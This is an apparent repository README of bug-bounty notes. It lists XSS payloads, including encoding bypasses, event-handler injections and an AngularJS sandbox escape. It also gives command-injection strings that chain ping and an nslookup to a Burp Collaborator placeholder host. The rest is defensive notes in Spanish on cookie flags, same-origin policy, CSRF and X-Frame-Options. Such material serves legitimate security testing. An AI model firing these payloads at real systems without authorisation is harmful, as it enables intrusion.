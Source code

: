 # BugBounty_tips

#Xss
%u003Csvg onload=alert(1)> \
%u3008svg onload=alert(2)> \
%uFF1Csvg onload=alert(3)> \
=<img%20src=x%20onerror=alert('Welcome,%20v
q=<g><script>alert%28document.domain%29<%2Fscript>   
<img src=x onerror=console.log("XSS")>   
‘);</script><script>alert(1)</script>  
{{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(1),a')}}

#Command Injection
url/cgi-bin/parameter=payload
payload 1 [PING]
|ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1 
payload 2 [Nslookup]
|nslookup -q=cname http://YOUR.burpcollaborator.net.&
  

  
cookie atributes
Las cookies son utilizadas a menudo en aplicaciones web para identificar a un usuario y su sesión
Creando
Set-Cookie: <nombre-cookie>=<valor-cookie>
Session
Expires
 
Securizar
Cookies Secure y HttpOnly
Secure es un parámetro para indicar que una cookie solo debería ser utilizada bajo un servidor seguro, tal como SSL
Previene la lectura y modificacion
Para prevenir ataques cross-site scripting (XSS (en-US)), las cookies HttpOnly son inaccesibles desde la API de Javascript Document.cookie; Solamente se envían al servidor. Por ejemplo, las cookies que persisten sesiones del lado del servidor no necesitan estar disponibles para JavaScript, por lo que debería establecerse el flag HttpOnly.

Alcance
Las directivas Domain y Path definen el alcance de la cookie: a qué URLs deberían enviarse las cookies.
Domain : especifica los hosts permitidos
Path   : espeficia directorios
Samesite
SameSite=Strict
Si una cookie same-site tiene este atributo, el navegador sólo enviará cookies si la solicitud se originó en el sitio web que estableció la cookie.y no hara en origenes distintos
Lax
Si el atributo se establece en Lax, las cookies same-site se retienen en (sub)peticiones cross-site, tales como llamadas para cargar imágenes o frames
Acceso desde JavaScript usando Document.cookie
También se pueden crear nuevas cookies via JavaScript usando la propiedad Document.cookie, y si el flag HttpOnly no está establecido

Tracking no legal  
HOW WORKS HTTPONLY
https://www.youtube.com/watch?v=d8liHExs5tc
https://www.youtube.com/watch?v=ZSUGfIy1ds8
https://www.youtube.com/watch?v=brNL_bvUCck


 
SameOriginPolicy Sop
https://developer.mozilla.org/es/docs/Web/Security/Same-origin_policy
Origen se refiere a si dos pagunas tienen el protocolo y el mismo puerto .
La política same-origin (mismo-origen) restringe cómo un documento o script cargado desde un origen puede interactuar con un recurso de otro origen. Es un mecanismo de seguridad crítico para aislar documentos potencialmente malicioso
Es impedir que dominios que no compartan el mismo host, puerto y protocolo sean capaces de acceder a la información de otro dominio

CSRF
Los endpoints GET no deben tener acciones de modificación, y si esto se necesita se debería requerir una petición POST. Además los endpoints POST no debería aceptar la intercambiabilidad de aceptar peticiones GET con parametros en query string
Un token CSRF debería ser incluido en cada elemento <form> mediante un input oculto. Este token debe ser único para cada usuario y almacenado (por ejemplo, en una cookie). De esta forma el servidor puede mirar si el valor requerido es enviado, y en cierto modo lo idea sería descartar la petición si el valor no concuerda con lo esperado.
Este método de protección recae en la imposibilidad de que un atacante pueda predecir este token autogenerado en cada inicio de sesión. Cabe aclarar que este token debería ser regenerado en cada inicio de sesión.
Al igual que con {{Glosario ("XSS")}}, el filtrado de entrada es importante.
Debería de existir siempre un requerimiento de confirmación para cualquier acción delicada,.
Las cookies empleadas en acciones delicadas deberían de tener una vida útil breve.

PREVENIR
https://www.youtube.com/watch?v=KvE3nifqELk
QUE LAS PETICIONES VENGAN DE SITIOS CONOCIDOS - ip - dominios 
POST - PETCIONES ASINCRONAS CON AJAX
HTTP_REFERER
mejor que lo anterior
HEAD
METER EL TOKEN EN HEAD EN UNA COOKIE
  
X-Frame-Options
La página sólo puede ser mostrada en un marco del mismo origen que dicha página.
X-Frame-Options: DENY
La página no puede ser mostrada en un marco, independiente del sitio que esté intentándolo.
X-Frame-Options: SAMEORIGIN
La página sólo puede ser mostrada en un marco del mismo origen que dicha página.
X-Frame-Options: ALLOW-FROM https://example.com/
La página sólo puede ser mostrada en un marco del origen especificado.Tenga en cuenta que en Firefox esto todavía sufre del mismo problema que SAMEORIGIN
  
SOLUCIÓN
Apache
Header always append X-Frame-Options SAMEORIGIN
Header set X-Frame-Options DENY
Header set X-Frame-Options "ALLOW-FROM https://example.com/"
Nginx
add_header X-Frame-Options SAMEORIGIN;
IIS
<system.webServer>
   <httpProtocol>
    <customHeaders>
      <add name="X-Frame-Options" value="SAMEORIGIN" />
    </customHeaders>
  </httpProtocol>
</system.webServer>
  

  
  
  
  
 
  



